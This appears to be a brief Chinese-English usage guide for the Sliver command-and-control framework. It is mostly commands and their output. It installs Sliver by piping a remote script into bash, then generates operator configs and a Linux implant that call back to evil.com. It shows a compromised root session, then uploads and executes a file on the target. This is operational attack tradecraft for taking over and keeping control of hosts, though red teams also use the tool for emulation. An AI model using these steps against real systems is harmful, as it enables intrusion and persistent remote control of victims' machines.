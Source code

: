 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/scripts/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(sec@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(sec@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n sec -l evil.com -p 31337 -s ~/.configs/sliver-client/evil.com.cfg
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135 -s ~/implant
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(sec@debian)-[~]
└─$ sliver-client import ~/.configs/sliver-client/evil.com.cfg
```

运行 Client

```
┌──(sec@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

### 2.3. Implant

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./evil ./example
```

添加执行权限

```
[server] sliver (implant) > chmod ./example 755
```

执行程序

```
[server] sliver (implant) > execute ./example
```

---

Refrences

- [sliver](https://github.com/BishopFox/sliver)

